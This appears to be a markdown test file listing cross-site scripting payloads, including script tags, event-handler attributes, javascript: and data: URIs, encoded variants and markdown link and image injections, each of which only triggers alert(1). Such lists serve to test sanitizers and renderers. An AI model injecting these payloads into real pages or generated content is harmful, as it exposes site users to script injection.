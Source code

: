 # 💥 XSS Payload Injection Test

A complete collection of possible XSS payloads, including raw HTML, encoded payloads, SVG vectors, and data URIs.

---

## 🔥 Raw HTML Payloads

<script>alert('XSS')</script>  
<iframe src="javascript:alert('XSS')"></iframe>  
<img src=x onerror=alert(1)>  
<body onload=alert(1)>  
<svg/onload=alert(1)>  
<marquee onstart=alert(1)>XSS</marquee>  
<video><source onerror="alert(1)"></video>  
<math><mtext><svg><animate attributeName="href" values="javascript:alert(1)" /></svg></mtext></math>  
<input autofocus onfocus=alert(1)>  
<textarea autofocus onfocus=alert(1)>test</textarea>  
<div onmouseover="alert(1)">Hover me</div>  
<details open ontoggle=alert(1)><summary>XSS</summary></details>  
<keygen autofocus onfocus=alert(1)>  
<object data="javascript:alert(1)">XSS</object>  
<embed src="data:text/html,<script>alert(1)</script>">  
<svg><script>alert(1)</script></svg>  
<svg><a xlink:href="javascript:alert(1)">X</a></svg>  

---

## 🖼️ Markdown Image-Based Payloads

![xss](javascript:alert(1))  
![xss](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+PC9zdmc+)  
![xss]("onerror='alert(1)'")  
![xss][1]  
[1]: javascript:alert(1)

---

## 🔗 Link Injection Payloads

[Click Here](javascript:alert(1))  
[Exploit](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)  
[SVG Click](data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+PC9zdmc+)  

---

## 🎭 Encoded Payloads

<img src=x onerror=&#97;&#108;&#101;&#114;&#116;(1)>  
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>  
<a href=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert(1)>Click</a>  

---

## 🧪 CSS & Style-Based Payloads

<div style="background-image:url(javascript:alert(1))">XSS</div>  
<div style="animation-name:x;" onanimationstart="alert(1)">XSS</div>  

---

## 🧬 Event Attribute Payloads

<a href="#" onclick="alert(1)">Click</a>  
<button onclick=alert(1)>Click</button>  
<video autoplay onplay="alert(1)">  
<svg><g onload=alert(1)></g></svg>  
<iframe srcdoc="<script>alert(1)</script>"></iframe>  

---

## 🧨 Edge Case/Obscure Payloads

<input type="text" value="test" onblur="alert(1)" autofocus>  
<form><button formaction="javascript:alert(1)">Submit</button></form>  
<svg><foreignObject><iframe src="javascript:alert(1)"></iframe></foreignObject></svg>  
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">Encoded Link</a>  

---

## 💣 Comment Injection

<!-- <img src=x onerror=alert(1)> -->  
<!-- <script>alert(1)</script> -->  

---

## 🧱 Inside Code Blocks

```html
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
<iframe src="javascript:alert('XSS')"></iframe>
